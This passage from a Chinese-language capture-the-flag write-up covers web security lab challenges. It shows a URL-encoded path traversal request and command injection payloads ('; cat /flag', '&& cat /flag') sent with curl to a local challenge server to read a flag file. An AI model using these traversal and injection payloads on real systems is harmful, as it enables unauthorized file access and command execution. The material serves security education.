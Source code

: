 多出来一些东西：

![image-20241101120756275](./02%20Web%20Security.assets/image-20241101120756275.png)

所以我们可以利用这个多出来的目录，进行绕过`./`。

---



```bash
$ curl -v challenge.localhost:80/fortunes%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fflag
```



# 03-cmdi-1

思路很简单

实现如下即可。使用url编码

```
ls -l  ; cat /flag
```

八仙过海各显神通，各有各的写法。

## exp

```
$ curl -v http://challenge.localhost:80/?directory=%20%3B%20cat%20%2Fflag
```

# 04-cmdi-2

## 描述

题目不允许使用;了。那就使用&&号码。

对如下内容url编码

```
/challenge && cat /flag
```
